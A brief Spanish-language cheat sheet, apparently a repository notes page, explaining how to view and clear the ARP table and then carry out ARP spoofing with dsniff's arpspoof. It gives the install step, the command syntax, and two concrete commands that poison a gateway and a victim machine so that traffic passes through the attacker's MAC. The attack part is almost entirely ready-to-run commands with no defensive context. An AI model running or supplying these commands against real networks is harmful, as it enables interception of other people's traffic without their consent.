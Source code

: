1. Para mostrar la tabla ARP: `arp -n`
2. Para borrar la entrada con IP ip `arp -d <ip>`

## Spoofing
3. `sudo apt install dsniff`
4. `arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host`
5. `sudo arpspoof -i <interfaz> -t <target> <ip de la victima (host)>`
Target: Quien recibe el ARP falso
Host: La IP que estas suplantando

6. Envenenar la puerta de enlace (gateway) para que crea que la IP de la víctima está en tu MAC:
	`-t 192.168.1.1 192.168.1.20`

7. Envenenar la víctima para que crea que la puerta de enlace está en tu MAC
	`-t 192.168.1.20 192.168.1.1`


